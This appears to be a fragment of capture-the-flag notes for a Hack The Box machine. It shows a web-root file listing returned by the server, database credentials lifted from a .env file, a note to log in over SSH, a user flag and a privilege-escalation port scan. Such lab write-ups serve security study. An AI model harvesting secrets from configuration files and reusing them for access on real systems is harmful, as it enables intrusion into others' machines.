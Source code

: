 ```
     }

```
OUTPUT
```
HTTP/1.1 200 OK
Server: nginx
Date: Thu, 28 Sep 2023 19:43:49 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 83

Database.php
Router.php
VPN
assets
controllers
css
fonts
images
index.php
js
views

```

credentials .env

```
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

Connect via ssh

user flag

2f5869152c15e6e0013c012f007099b0


active ports 
```
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                                          
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                                                                                      
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -   
```
